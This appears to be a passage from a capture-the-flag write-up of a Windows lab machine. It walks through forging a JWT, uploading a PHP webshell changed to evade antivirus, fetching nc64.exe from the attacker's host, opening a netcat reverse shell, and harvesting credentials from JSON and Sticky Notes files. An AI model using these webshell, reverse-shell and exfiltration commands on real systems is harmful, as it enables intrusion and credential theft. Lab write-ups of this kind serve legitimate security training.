

- If we try to upload, we will still have `insufficient privileges` error
  - We need to forge `jwt` token
  - We know the `secret`
  - Let's use [jwt.io](https://jwt.io/)
  - The payload is based on source code we got above


- Now we can upload files
  - I tried uploading a simple webshell, but received an error


- `Burp` shows that the web page is trying appending `.zip` to task name


- I changed the `Test.zip` to `shell.php`
  - But now we got different error
  - 


- I was stuck here for a while
  - I saw some hints on forum, it looks like windows defender is flagging my `php` file as malicious
  - Let's change it a bit
    - `<?php $result=shell_exec($_REQUEST['cmd']); echo "<pre>$result</pre>"; ?>`


- Let's get reverse shell
```
└─$ curl http://10.10.10.228/portal/uploads/shell.php --data-urlencode "cmd=powershell -c wget 10.10.16.8/nc64.exe -outfile C:\programdata\nc.exe"
<pre></pre>                                                                                                                                    
```
```
└─$ curl http://10.10.10.228/portal/uploads/shell.php --data-urlencode "cmd=\programdata\nc.exe 10.10.16.8 6666 -e cmd"
```



## User
- Enumerate
  - Inside `C:\Users\www-data\Desktop\xampp\htdocs\portal` we have `pizzaDeliveryUserData` folder
  - It looks like it's related to disabled button in `portal` endpoint
  - We found creds in `juliette.json` file
```
C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>type juliette.json
type juliette.json
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}
```

- Let's try `ssh`
  - `juliette:jUli901./())!`
```
└─$ ssh juliette@10.10.10.228
The authenticity of host '10.10.10.228 (10.10.10.228)' can't be established.
ED25519 key fingerprint is SHA256:aQcQrF+10YxX8CBQ26nT/5luebgQc123pC6ciqCe4J0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.228' (ED25519) to the list of known hosts.
juliette@10.10.10.228's password: 

Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.
                                                    
juliette@BREADCRUMBS C:\Users\juliette>  
```

## Root
- We have a note on `juliette`'s desktop
```
juliette@BREADCRUMBS C:\Users\juliette>dir desktop
 Volume in drive C has no label.                  
 Volume Serial Number is 7C07-CD3A                
                                                  
 Directory of C:\Users\juliette\desktop           
                                                  
01/15/2021  05:04 PM    <DIR>          .          
01/15/2021  05:04 PM    <DIR>          ..         
12/09/2020  07:27 AM               753 todo.html  
09/21/2023  10:10 AM                34 user.txt   
               2 File(s)            787 bytes     
               2 Dir(s)   5,491,372,032 bytes free
                                                  
juliette@BREADCRUMBS C:\Users\juliette>type desktop\todo.html
<html>                  
<style>                 
html{                   
background:black;       
color:orange;           
}                       
table,th,td{            
border:1px solid orange;
padding:1em;
border-collapse:collapse;
}
</style>
<table>
        <tr>
            <th>Task</th>
            <th>Status</th>
            <th>Reason</th>
        </tr>
        <tr>
            <td>Configure firewall for port 22 and 445</td>
            <td>Not started</td>
            <td>Unauthorized access might be possible</td>
        </tr>
        <tr>
            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
            <td>In progress</td>
            <td>It stores passwords in plain text</td>
        </tr>
        <tr>
            <td>Add new features to password manager</td>
            <td>Not started</td>
            <td>To get promoted, hopefully lol</td>
        </tr>
</table>

</html>
```

- We can google info about `Sticky Notes`
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#sticky-notes

```
juliette@BREADCRUMBS C:\>dir c:\users\juliette\Appdata\local\packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of c:\users\juliette\Appdata\local\packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

01/15/2021  05:10 PM    <DIR>          .
01/15/2021  05:10 PM    <DIR>          ..
01/15/2021  05:10 PM            20,480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
11/29/2020  04:10 AM             4,096 plum.sqlite
01/15/2021  05:10 PM            32,768 plum.sqlite-shm
01/15/2021  05:10 PM           329,632 plum.sqlite-wal
               4 File(s)        386,976 bytes
               2 Dir(s)   5,491,294,208 bytes free
```

- I downloaded files
  - Host `smbserver`
    - `impacket-smbserver share $(pwd) -smb2support`
```
PS C:\users\juliette\Appdata\local\packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> copy plum.* \\10.10.16.8\share\
```
```
└─$ ls
plum.sqlite  plum.sqlite-shm  plum.sqlite-wal
```

- Let's open them using `sqlite3`
```
└─$ sqlite3 plum.sqlite
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
Media           Stroke          SyncState       User          
Note            StrokeMetadata  UpgradedNote  
sqlite> select * from Note;
\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: [MOVED]|ManagedPosition=|1|0||Yellow|0|||||||0c32c3d8-7c60-48ae-939e-798df198cfe7|8e814e57-9d28-4288-961c-31c806338c5b|637423162765765332||637423163995607122
```

- We have creds for `development`
  - We saw `Development` folder in `C:\` that we couldn't access
  - I am pretty sure `development` user has access to it
```
PS C:\> icacls c:\development
c:\development NT AUTHORITY\SYSTEM:(OI)(CI)(RX)
               BUILTIN\Administrators:(OI)(CI)(RX)
               BREADCRUMBS\development:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
```
└─$ smbmap -H 10.10.10.228 -u development -p 'fN3)sN5Ee@g'
[+] IP: 10.10.10.228:445        Name: 10.10.10.228                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Anouncements                                            READ ONLY
        C$                                                      NO ACCESS       Default share
        Development                                             READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
```

- Let's check it
```
└─$ smbclient  //10.10.10.228/development -U 'development%fN3)sN5Ee@g'  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 16 00:03:49 2021
  ..                                  D        0  Sat Jan 16 00:03:49 2021
  Krypter_Linux                       A    18312  Sun Nov 29 11:11:56 2020

                5082961 blocks of size 4096. 1340573 blocks available
smb: \> get Krypter_Linux 
getting file \Krypter_Linux of size 18312 as Krypter_Linux (22.9 KiloBytes/sec) (average 22.9 KiloBytes/sec)
```

- `Krypter_Linux`
```
└─$ file Krypter_Linux          
Krypter_Linux: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ab1fa8d6929805501e1793c8b4ddec5c127c6a12, for GNU/Linux 3.2.0, not stripped
```
```
└─$ ./Krypter_Linux       
Krypter V1.2

New project by Juliette.
New features added weekly!
What to expect next update:
        - Windows version with GUI support
        - Get password from cloud and AUTOMATICALLY decrypt!
***

No key supplied.
USAGE:

Krypter <key>
```
- I'll open the file in `Ghidra`



- We can see that there is `curl` request to `http://passmanager.htb:1234/index.php`
  - Let's reconnect with `ssh` and set port forwarding with `-L 1234:127.0.01:1234` 
```
└─$ curl 'http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

- Or
```
juliette@BREADCRUMBS C:\Users\juliette>curl "http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords"      
selectarray(1) {                 
  [0]=>                          
  array(1) {                     
    ["aes_key"]=>                
    string(16) "k19D193j.<19391("
  }                              
}                                
```

- We have a key, but we also need an encrypted password
